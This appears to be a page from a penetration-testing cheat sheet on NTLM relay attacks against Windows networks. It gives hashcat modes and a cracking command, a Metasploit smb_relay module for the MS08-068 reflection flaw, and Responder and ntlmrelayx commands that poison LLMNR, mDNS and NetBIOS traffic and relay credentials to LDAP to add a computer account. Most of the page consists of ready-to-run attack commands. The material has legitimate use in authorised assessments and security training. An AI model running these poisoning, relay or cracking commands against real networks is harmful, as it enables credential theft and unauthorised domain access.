 # Internal - NTLM Relay

NTLMv1 and NTLMv2 can be relayed to connect to another machine.

| Hash                  | Hashcat | Attack method        |
|-----------------------|---------|----------------------|
| LM                    | `3000`  | crack/pass the hash  |
| NTLM/NTHash           | `1000`  | crack/pass the hash  |
| NTLMv1/Net-NTLMv1     | `5500`  | crack/relay attack   |
| NTLMv2/Net-NTLMv2     | `5600`  | crack/relay attack   |

Crack the hash with `hashcat`.

```powershell
hashcat -m 5600 -a 0 hash.txt crackstation.txt
```

## MS08-068 NTLM reflection

NTLM reflection vulnerability in the SMB protocolOnly targeting Windows 2000 to Windows Server 2008.

> This vulnerability allows an attacker to redirect an incoming SMB connection back to the machine it came from and then access the victim machine using the victim’s own credentials.

* <https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068>

```powershell
msf > use exploit/windows/smb/smb_relay
msf exploit(smb_relay) > show targets
```

## LDAP signing not required and LDAP channel binding disabled

During security assessment, sometimes we don't have any account to perform the audit. Therefore we can inject ourselves into the Active Directory by performing NTLM relaying attack. For this technique three requirements are needed:

* LDAP signing not required (by default set to `Not required`)
* LDAP channel binding is disabled. (by default disabled)
* `ms-DS-MachineAccountQuota` needs to be at least at 1 for the account relayed (10 by default)

Then we can use a tool to poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network such as `Responder` and use `ntlmrelayx` to add our computer.

```bash
# On first terminal
sudo ./Responder.py -I eth0 -wfrd -P -v

# On second terminal
sudo python ./ntlmrelayx.py -t ldaps://IP_DC --add-computer
```
